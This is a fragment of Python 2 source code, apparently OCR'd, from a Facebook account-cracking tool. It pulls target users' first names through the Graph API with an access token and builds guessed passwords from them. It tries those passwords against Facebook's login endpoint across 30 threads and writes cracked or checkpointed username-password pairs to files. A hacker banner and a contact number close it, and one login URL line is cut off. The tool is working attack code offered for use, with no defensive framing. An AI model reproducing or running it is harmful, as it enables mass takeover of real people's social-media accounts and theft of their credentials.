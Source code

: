 															cek = open("out/checkpoint.txt", "a")
															cek.write(user+"|"+pass6+"\n")
															cek.close()
															cekpoint.append(user+pass6)
														else:
															a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
															b = json.loads(a.text)
															pass7 = b['first_name'] + 'afridi'
															data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%
															q = json.load(data)
															if 'access_token' in q:
																print '\x1b[1;92mSuccessful\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																oks.append(user+pass7)
															else:
																if 'www.facebook.com' in q["error_msg"]:
																	print '\x1b[1;95mCheckpoint\x1b[1;97m-\x1b[1;94m✧\x1b[1;97m-' + user + '-\x1b[1;94m✧\x1b[1;97m-' + pass7
																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "[1;95m♡──────────•◈•──────────♡[1;96mjahid.tex[1;95m♡──────────•◈•──────────♡"
	print "  [1;93m«---•◈•---Developed By love---•◈•---»" #Dev:love_hacker
	print '[1;91mProcess Has Been Completed[1;92m....'
	print"[1;91mTotal OK/\x1b[1;93mCP [1;91m: [1;91m"+str(len(oks))+"[1;97m/[1;95m"+str(len(cekpoint))
	print """
             
             ...........███ ]▄▄▄▄▄▃
             ..▂▄▅█████▅▄▃▂
             [███████████████]
             ◥⊙▲⊙▲⊙▲⊙▲⊙▲⊙◤
♡──────────────•◈•──────────────♡.
: [1;96m .....lovehacker  jahid.tex........... [1;93m :
♡──────────────•◈•──────────────♡.' 
                whatsapp Num
               +923094161457"""
	
	raw_input("\n{}[1;92m[[1;94mBack[1;96m]")
	menu()

if __name__ == '__main__':
	login()
